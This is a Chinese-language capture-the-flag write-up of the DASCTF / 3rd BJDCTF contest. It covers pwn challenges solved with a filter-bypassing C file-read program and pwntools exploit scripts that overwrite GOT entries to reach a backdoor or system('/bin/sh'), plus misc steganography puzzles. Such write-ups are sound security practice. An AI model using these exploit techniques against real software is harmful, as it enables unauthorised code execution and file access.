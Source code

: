 ```yaml
---
title: DASCTF&第三届BJDCTF write up
date: 2020-05-24 22:21:16
tags: CTF
---
```

不愧是BJD，不愧是TaQini，我不配  <!--more-->
![](1.jpg)
# Pwn  
## TaQini OJ 0  
是个C语言编译器，没有复现环境我就直接写一下了  
首先提示需要打印出"Helloc TaQini"字符串，然后我就用printf打印出来了，然后他回显一个当前目录的tree，并且告诉了绝对路径  
然后尝试system("/bin/sh"),execve("/bin/sh",0,0)发现都被过滤了  
遂尝试orw，发现不能出现flag字符串，不然直接退出  
那就有点蛋疼了  
那我们不在输入C语言的时候用flag字符串，制造一个用户输入，在用户输入的时候输入flag路径  
就可以orw了  
exp  
```C++  
#include <stdio.h>
#include <stdlib.h>
#include <fcntl.h>
int main()
{
char a[32]={0};
char b[60]={0};

gets(a);
int fd=open(a,O_RDONLY);

read(fd,b,0x30);
write(1,b,0x30);

return 0;
}@
```  
随性而写，缩进？不存在的  
还有一个非预期是这样，两个OJ题都可以秒了  
![](feiyuqi.png)
艹？？？  
我？？？  
![](sbch.jpg)
## Memory Monster I  
分析一下，  
main里有个任意地址写  
开了canary  
![](2.png)
还有后门  
![](3.png)
直接把__stack_chk_fail@got改成后门函数就gg了  
exp：  
```python  
#!/usr/bin/env python
#coding=utf-8
from pwn import*
import sys
#context.log_level = 'debug'
context.update(arch='amd64',os='linux',timeout=1) 
context.terminal = ['terminator','-x','sh','-c']
binary = './baby_tcache' 
local = 1
if local == 1:
    p=process(binary)
else:
    p=remote("",)
elf=ELF(binary)
libc=elf.libc
def exp():
    p.recvuntil("addr:")
    p.send(p64(0x404028) + "\x00"*0x28)
    p.recvuntil("data:")
    p.send(p64(0x40124A))
    p.interactive()
exp()
```  
## Memory Monster II  
这题所有符号都没了，我吐了  
自己找main呗  
找了半天  
然后把里面的东西重命名了  
基本上和I是一样的  
![](4.png)
但是很难找got表了  
我找到got区，一个个试  
![](5.png)
然后发现__stack_chk_fail@got是0x4bb058，我们把这个改成main，（这里要注意，这个main要跳过setvbuf，不然程序会挂掉）就可以无限循环任意地址写了  
然后把puts的参数改成/bin/sh  
然后把puts@got改成system  
然后就gg  
exp：  
```python  
#!/usr/bin/env python
#coding=utf-8
from pwn import*
from LibcSearcher import *
import sys
context.log_level = 'debug'
context.terminal = ['terminator','-x','sh','-c']
binary = './Memory_Monster_II' 
local = 1
if local == 1:
    p=process(binary)
else:
    p=remote("",)
elf=ELF(binary)
libc=ELF('/lib/x86_64-linux-gnu/libc.so.6')

def exp():
    p.recvuntil("addr:")
    payload = p64(0x4bb058) + "\x00"*0x29
    p.send(payload)
    p.recvuntil("data:")
    p.send(p64(0x401c1d))
    p.recvuntil("addr:")
    payload = p64(0x4BB100) + "\x00"*0x29
    p.send(payload)
    p.recvuntil("data:")
    p.send("/bin/sh\x00")
    p.recvuntil("addr:")
    payload = p64(0x4bb0c0) + "\x00"*0x29
    p.send(payload)
    p.recvuntil("data:")
    p.send(p64(0x401d00))
    
    p.interactive()
exp()
```  
# Misc  
后边的pwn都不会了，被迫做misc  
问卷就简单说一下  
查看页面源代码，里面有所有问题的答案，直接填上，就可以出flag  
## /bin/cat 2  
开局一张图  
![](cat.gif)
下载下来，用stegsolve变变色  
然后长这样  
![](6.png)
然后拉伸缩放一下，扫码，出来个这个  
```  
m1ao~miao~mi@o~Mia0~m!aO~m1a0~~~
```  
md5加密一下就是flag  
## babyweb  
开局一个抖肩舞webp  
没什么用，我还以为里面有隐写  
有一个压缩包，下载下来发现要密码  
然后F12看一下，里面有个零宽字符隐写  
![](7.png)
怎么解密呢？  
google一下  
![](8.png)
然后就得到了压缩包的密码  
然后打开长这样    
![](9.png)
？？？？  
winhex打开，发现png文件头在末尾了  
![](10.png)
用python倒序一下  
```python  
f = open("f14g.png", "rb")
s = f.read()
f.close()
f = open("2.png", "wb")
f.write(s[::-1])
f.close()
```  
出来这么个玩意儿  
![](flag.png)
我？？？  
然后google识图，发现是四种字符  
alphabet minimoys  
标准银河字母  
跳舞小人  
宝可梦  
这里特别提醒！众所周知，百度是个垃圾玩意儿，识图识了个寂寞，啥也没有  
然后去找到里面对对应的字符，结合hint，把Q改成W  
然后md5加密一波  
gg  
</br>
这第三届BJDCTF的质量真的很高，有一说一，每一届的质量都很不错，但实在是我自己太菜了，做不出什么题  
最后一定要膜拜一波大师傅  
我愈发感觉自己不配打CTF了  
![](dashifu.png)